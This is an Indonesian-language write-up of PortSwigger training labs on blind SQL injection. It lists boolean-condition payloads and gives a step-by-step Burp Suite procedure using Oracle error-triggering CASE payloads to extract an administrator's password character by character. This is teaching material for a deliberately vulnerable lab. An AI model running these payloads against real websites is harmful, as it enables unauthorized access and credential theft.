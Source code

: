 **Eksploitasi Blind SQL Injection dengan Membuat Conditional Statement**
' AND '1'='1

' AND '1'='2

' AND (SELECT 'a' FROM users LIMIT 1)='a

' AND (SELECT 'a' FROM users WHERE username='administrator')='a

' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>7)='a

' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a



SELECT trackingID FROM table WHERE trackingID='1rPrb9JTKirNmmH9'

SELECT trackingID FROM table WHERE trackingID='1rPrb9JTKirNmmH9' AND '1'='2'

SELECT trackingID FROM table WHERE trackingID='1rPrb9JTKirNmmH9' AND (SELECT 'a' FROM users LIMIT 1)='a'

SELECT trackingID FROM table WHERE trackingID='1rPrb9JTKirNmmH9' AND (SELECT 'a' FROM users WHERE username='administrator')='a'

SELECT trackingID FROM table WHERE trackingID='1rPrb9JTKirNmmH9' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>5)='a'

SELECT trackingID FROM table WHERE trackingID='1rPrb9JTKirNmmH9' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')>'m'


**Blind SQL Injection dengan Memicu Conditional Error**
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors
PoC:
1. Lakukan lab ini melalui Burp Suite, buat request ke dalam website lab
2. Send request ke repeater dan coba lihat bagian Cookie > TrackingId
3. Cobalah buat error pada website dengan menambah TrackingID dengan  tanda petik 1 (`TrackingId=abc'`), query yang dikirimkan ke database menjadi `SELECT TrackingId FROM Tables WHERE TrackingId='abc''`
5. (Optional) Apakah serangan blindSQLi sebelum ini dapat dilakukan? `TrackingId=abc' AND 1=1--`, `TrackingId=abc' AND 1=2--`
6. Mengetahui SQL yang digunakan `TrackingId='abc'||(SELECT 'a')--'` atau  `TrackingId=abc' AND (SELECT+'a')='a`
7. Cobalah dengan syntax Oracle SQL `TrackingId='abc' AND (SELECT 'a' FROM dual)='a'` atau `TrackingId='abc'||(SELECT 'a' FROM dual)--`
8. Memastikan nama database `TrackingId='abc||(SELECT 'a' FROM users WHERE ROWNUM=1)--`
9. Testing logika untuk blind SQLi `TrackingId='abc'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE 'a' END FROM dual)--`, muncul internal server error.
10. Testing kedua untuk logika blind SQLi `TrackingId='abc'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE 'a' END FROM dual)--`, website bisa diakses
11. Sampai di sini bisa disimpulkan: apabila logika benar, maka server akan memberikan pesan error. Sebaliknya, jika logika bernilai salah, maka server memberikan respon normal.
12. Cobalah kondisi logika tersebut untuk user administrator pada tabel users. `TrackingId='abc'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE 'a' END FROM users WHERE username='administrator')--`, jika terdapat user administrator, website akan menampilkan pesan error.
13. Carilah panjang password dari user administrator dengan blind SQLi `TrackingId='abc'||(SELECT CASE WHEN LENGTH(password)<10 THEN to_char(1/0) ELSE 'a' END FROM users WHERE username='administrator')--`
14. Buat iterasi pada Burp Intruder untuk mengetahui panjang password sebenarnya, dengan payload number dan tipe serangan sniper.
15. Setelah mengetahui panjang password, carilah password tersebut satu per satu `TrackingId='abc'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN+to_char(1/0) ELSE 'a' END FROM users WHERE username='administrator')--`
16. Code untuk automasi lab ini dapat dilihat pada: https://github.com/cyberkarta/script-weha/blob/main/2_blindsqli2.py


>Sebenarnya SELECT CASE dapat diganti dengan subquery di bawah ini
>`TrackingId='abc'||(select TO_CHAR(1/0) FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')--'`
